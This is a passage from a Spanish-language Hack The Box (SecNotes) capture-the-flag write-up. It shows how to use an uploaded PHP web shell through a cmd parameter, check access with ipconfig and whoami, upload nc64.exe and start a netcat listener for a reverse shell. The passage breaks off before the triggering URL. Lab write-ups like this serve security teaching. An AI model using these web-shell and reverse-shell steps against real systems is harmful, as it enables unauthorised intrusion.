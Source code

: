 Una vez subida, desde nuestro navegador, podemos acceder a ella añadiendo _/cmd.php?cmd=comando_ al url.

Podemos ejecutar _ipconfig_ para corroborar que nos encontramos dentro de la máquina víctima.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/32.png)

O _whoami_ para determinar que usuario somos.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/33.png)

Ya a partir de este punto, lo que nos interesa como atacantes, es ganar acceso al sistema a través de una consola propiamente, para lo cual tenemos dos opciones:

Podemos usar [Netcat](https://eternallybored.org/misc/netcat/), para lo cual descargaremos la última versión y subiremos al servidor web el ejecutable.

```
put nc64.exe
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/34.png)

Nos pondremos en escucha a través del puerto que determinemos.

```
sudo rlwrap nc -nlvp <puertoCualquiera>
```

Para finalmente a través del navegador añadir lo siguiente al url.
